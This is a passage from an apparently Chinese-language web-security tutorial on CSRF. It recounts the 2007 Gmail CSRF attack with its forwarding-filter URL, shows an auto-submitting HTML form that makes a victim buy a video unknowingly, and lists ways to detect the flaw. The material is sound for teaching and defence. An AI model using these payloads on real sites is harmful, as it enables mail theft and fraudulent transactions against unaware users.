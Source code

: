 攻击者甚至可以将这个页面隐藏在一个不可见的iframe窗口中，那么整个自动提交表单的过程，对于用户来说也是不可见的。

在2007年的Gmail CSRF漏洞攻击过程中，安全研究者pdp展示了这一技巧。首先，用户需要登录Gmail账户，以便让浏览器获得Gmail的临时Cookie。  
![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/5697d96b4fca2727e7ed56565c86c49d.png#pic_center)  
用户登录Gmail

然后，攻击者诱使用户访问一个恶意页面。

![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/2d7ce2033e56bc63baf77f58917f8663.png#pic_center)  
攻击者诱使用户访问恶意页面

在这个恶意页面中，隐藏了一个iframe，iframe的地址指向pdp写的CSRF构造页面。

```jav
http: //www.gnucitizen.org/util/csrf?_method=POST&_enctype=multipart/form-data&_action=https%3A//mail.google.com/mail/h/ewtljmuj4ddv/%3Fv%3Dprf&cf2_emc=true&cf2_email=evilinboxmailinator.com&cfl_from&cfl_toucf1_subjicf1_has&cfl_hasnotscf1_attach=truestfi&S=z&irf=on&nvp bu_cftb=Create%20Filter
```

这个链接的实际作用就是把参数生成一个POST的表单，并自动提交。  
由于浏览器中已经存在Gmail的临时Cookie，所以用户在iframe中对Gmail发起的这次请求会成功―—邮箱的Filter中会新创建一条规则，将所有带附件的邮件都转发到攻击者的邮箱中。  
![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/a4ccb96ee22d66057446d2ea618e3e79.png#pic_center)  
恶意站点通过CSRF在用户的Gmail中建立一条规则。

**如果上述例子看得还是有点懵逼，那再举一个例子：**

在普通用户的眼中，点击网页->打开试看视频->购买视频是一个很正常的一个流程。可是在攻击者的眼中可以算正常但又不正常的，当然不正常的情况下，是在开发者安全意识不足所造成的。攻击者在购买处抓到购买时候网站处理购买(扣除)用户余额的地址。

比如:

```
/coures/user/handler666buy.php</font>
```

通过提交表单，buy.php处理购买的信息，这里的666为视频ID。那么攻击者现在构造一个链接，链接中包含以下内容。

```html
<form action=/coures/user/handler/666/buy method=POST>
<input type="text" name="xx" value="xx" />
</form>
<script> document.forms[0].submit(); </script> 
```

当用户访问该页面后，表单会自动提交，相当于模拟用户完成了一次POST操作，自动购买了id为666的视频，从而导致受害者余额扣除。

## 四、CSRF漏洞的挖掘

1、最简单的方法就是抓取一个正常请求的数据包，如果没有Referer字段和token，那么极有可能存在CSRF漏洞。

2、如果有**Referer**字段，但是去掉Referer字段后再重新提交，如果该提交还有效，那么基本上可以确定存在CSRF漏洞。

3、随着对CSRF漏洞研究的不断深入，不断涌现出一些专门针对CSRF漏洞进行检测的工具，如CSRFTester，CSRF Request Builder等。以CSRFTester工具为例，CSRF漏洞检测工具的测试原理如下:

使用CSRFTester进行测试时，首先需要抓取我们在浏览器中访问过的所有链接以及所有的表单等信息，然后通过在CSRFTester中修改相应的表单等信息，重新提交，这相当于一次伪造客户端请求。

如果修改后的测试请求成功被网站服务器接受，则说明存在CSRF漏洞，当然此款工具也可以被用来进行CSRF攻击。
